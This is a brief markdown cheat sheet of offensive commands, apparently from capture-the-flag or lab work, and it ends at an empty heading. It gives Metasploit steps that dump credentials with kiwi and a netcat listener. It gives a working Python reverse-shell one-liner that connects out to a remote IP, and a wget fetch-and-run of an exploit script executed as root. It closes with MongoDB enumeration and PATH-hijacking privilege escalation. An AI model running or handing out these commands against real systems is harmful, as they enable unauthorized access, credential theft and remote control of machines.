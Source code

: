 # Cyber Cheat Sheet

## Exploitation Steps

1. **Metasploit:**
    ```bash
    run post/multi/recon/local_exploit_suggester
    session <session number>
    getprivs
    ps
    load kiwi
    creds_all
    ```

2. **Netcat Shell:**
    - On your machine: `nc -lvnp 8005`
    - Reverse shell payload: 
    ```python
    python -c 'import socket,os,pty; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.0.0.1",4242)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); pty.spawn("/bin/sh")'
    ```

## Mongo DB Enumeration

1. `mongo`
2. `show dbs`
3. `use sudousersbak`
4. `show collections`
5. `db.flag.find()`
6. `db.user.find()`

## Exiftool Exploit

1. Download script: `wget 10.2.63.225:8008/<filename.sh>`
2. Set permissions: `chmod 777 exp.sh`
3. Run: `bash ./exp.sh 'sudo su'`

## Other Commands

```bash
sudo -u root /usr/local/bin/exiftool delicate.jpg
echo $PATH
chmod +x date
export PATH=/home/rabbit:$PATH
```

## Python Code Snippets
